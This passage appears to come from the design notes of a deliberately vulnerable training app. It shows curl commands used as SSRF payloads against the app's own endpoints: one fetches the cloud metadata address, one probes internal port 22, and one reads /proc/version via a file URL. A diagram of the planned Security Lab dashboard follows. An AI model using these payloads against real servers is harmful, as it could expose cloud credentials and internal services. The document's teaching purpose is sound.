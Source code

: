 **Advanced SSRF Testing with Burp Suite:**
```bash
# SSRF payload for cloud metadata
curl -X POST http://localhost:3000/api/tasks/import \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"importUrl":"http://169.254.169.254/latest/meta-data/","format":"json"}'

# Internal network scanning
curl -X POST http://localhost:3000/api/users/avatar \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"imageUrl":"http://localhost:22","fetchFromUrl":true}'

# Local file inclusion
curl -X POST http://localhost:3000/api/users/avatar \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"imageUrl":"file:///proc/version","fetchFromUrl":true}'
```

## Interactive Vulnerability Management System

### Vulnerability Dashboard Design

The application will include a dedicated **Security Lab** page that provides an interactive learning environment where users can toggle between vulnerable and secure code implementations in real-time.

```mermaid
graph TD
    A[Security Lab Dashboard] --> B[Vulnerability Cards]
    B --> C[SQL Injection Lab]
    B --> D[XSS Lab]
    B --> E[IDOR Lab]
    B --> F[Session Management Lab]
    B --> G[SSRF/LFI Lab]
    
    C --> H[Code Comparison View]
    C --> I[Live Testing Panel]
    C --> J[Toggle Switch]
    
    H --> K[Vulnerable Code Block]
    H --> L[Secure Code Block]
    
    I --> M[Attack Payload Input]
    I --> N[Real-time Results]
    I --> O[Exploitation Status]
```


This interactive system allows students to:
1. **See vulnerable vs secure code side-by-side**
2. **Toggle between implementations in real-time**
3. **Test attacks immediately and see results**
4. **Understand exactly why attacks succeed or fail**
5. **Learn proper mitigation techniques**
